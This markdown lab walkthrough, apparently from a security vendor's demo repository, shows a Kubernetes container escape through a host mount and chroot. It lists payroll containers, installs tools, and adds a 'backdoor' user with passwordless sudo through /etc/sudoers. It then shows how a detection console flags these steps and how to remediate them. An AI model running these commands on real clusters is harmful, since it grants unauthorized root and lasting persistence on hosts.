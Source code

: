 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```


Ideally, this shell is restricted to the container. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder that seems to link to the host machine.

```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, which gives us all kinds of access. Depending on the software that is available on the machine, there are a few different exploits we could attempt. To test if a program is installed, run `which`:

```sh
which PROGRAM
```

<details>
    <summary>If <code>docker</code> is installed</summary>

With docker, we can see all of the pods that are running on the node:

```sh
docker ps
```

This will likely show many containers; to get a clearer picture, let's filter the output:

```sh
docker ps | grep 'payroll'
```

```
ae76168d2734   mongo    "docker-entrypoint.s…"   5 minutes ago   Up 5 minutes       k8s_payrolldb_payrolldb-b48...bd198_5
ef1a7665382c   mongo    "docker-entrypoint.s…"   5 minutes ago   Up 5 minutes       k8s_payrolldb_payrolldb-67d...fa71f_5
060e3cc5e6f7   mongo    "docker-entrypoint.s…"   5 minutes ago   Up 5 minutes       k8s_payrolldb_payrolldb-6cd...b7383_5
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If <code>crictl</code> is installed</summary>

For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

In the list of pods, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
53544824341d9       7 minutes ago       Ready               payrolldb-b4889ff59-frtgd                    payroll-prod        5                   (default)
b4c2899629bab       7 minutes ago       Ready               payroll-calculator-85c9955696-bqz48          payroll-prod        5                   (default)
ffe96bd760b35       7 minutes ago       Ready               payroll-calculator-85c9955696-kkz7t          payroll-prod        5                   (default)
...
```

Let's look at the containers that are named payrolldb:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE                      CREATED             STATE               NAME                ATTEMPT             POD ID              POD
ae76168d27343       mongo@sha256:1a7...060be   8 minutes ago       Running             payrolldb           5                   53544824341d9       payrolldb-b4889ff59-frtgd
ef1a7665382ce       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   e053f9804b343       payrolldb-67d4cf9fd9-vtlc9
060e3cc5e6f72       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   8581f572b57c4       payrolldb-6cd4447758-hzldw
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If neither is installed</summary>

If we don't have the tools we need, that doesn't matter: we have root access. This means we can install anything we need, such as docker:

```sh
apt install docker
```

> Note: the package installer and package may vary depending on the machine. Try `yum` or `apk` if `apt` isn't available. If the package is not found, try searching for it or updating the package list (`apt update`).

</details>

Let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```

Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, investigated all containers running on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags which are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive shell, running the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser` and `visudo`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).

